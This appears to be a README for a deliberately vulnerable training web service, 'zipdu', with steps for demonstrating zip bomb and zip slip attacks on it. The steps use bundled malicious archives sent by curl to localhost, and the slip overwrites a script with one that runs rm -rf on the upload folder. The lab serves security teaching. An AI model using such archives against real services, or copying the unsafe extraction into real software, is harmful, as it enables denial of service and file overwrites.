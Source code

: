 ## zipdu

zipdu is a web service which exposes an HTTP endpoint that accepts a zip file upload as input and returns its inflated byte size and number of contained files in a JSON-formatted response.
zipdu is vulnerable to zip bombs and zip slip attacks.

----------

### Setup

**First**, follow the README instructions in the language directory of your choice to prepare `zipdu` for execution.

**Second**, run `zipdu` in a terminal session from the root folder of this repository and check that it responds to HTTP requests using a tool like `curl` to send a GET request to the `/health` endpoint:

```bash
// first terminal session
$ ./zipdu
Starting server on port 8000
```

```bash
// second terminal session
$ curl http://localhost:8000/health
{"ok":true}
```

----------

### How to execute the zip bomb attack

**First**, set up `zipdu` for your language of choice, and run it from the root folder of this repository.

**Afterwards**, send a POST request to the `/zipstats` endpoint using the `philkatz.zip` file found in the `bombs` directory (compressed size ~971KB, expands to ~1GB):

```bash
$ curl -XPOST -F file=@bombs/philkatz.zip http://localhost:8000/zipstats
```

If you _really_ don't care about messing up the system `zipdu` is running on, the `bombs` directory also contains a file named `42.zip` which has a compressed size of ~42KB and expands to ~4500TB.


----------

### How to execute the zip slip attack

**First**, set up `zipdu` for your language of choice, and run it from the root folder of this repository.

**Second**, check the contents of the `execution.sh` script found in the root folder of this repository:

```bash
// this file will be overwritten if the zip slip attack is successfull
$ cat execution.sh 
#!/usr/bin/env bash

echo "Harmless NOOP executed successfully."
```

**Third**, execute the zip slip attack by sending the specially crafted zip archive found under `slips/slipwell.zip`:

```bash
$ curl -XPOST -F file=@slips/slipwell.zip http://localhost:8000/zipstats
```

**Finally**, check that the contents of `execution.sh` have been overwritten:

```bash
$ cat execution.sh 
#!/usr/bin/env bash

readonly UPLOAD_FOLDER=./uploads

rm -rf "${UPLOAD_FOLDER}"
echo "This script slipped through and the upload folder is now gone."
```

----------

### Notes

The `42.zip` zip bomb was taken from [https://www.unforgettable.dk/](https://www.unforgettable.dk/) and introduced in [https://www.usenix.org/system/files/woot19-paper_fifield_0.pdf](https://www.usenix.org/system/files/woot19-paper_fifield_0.pdf).

### Further reading

https://www.bamsoftware.com/hacks/zipbomb/

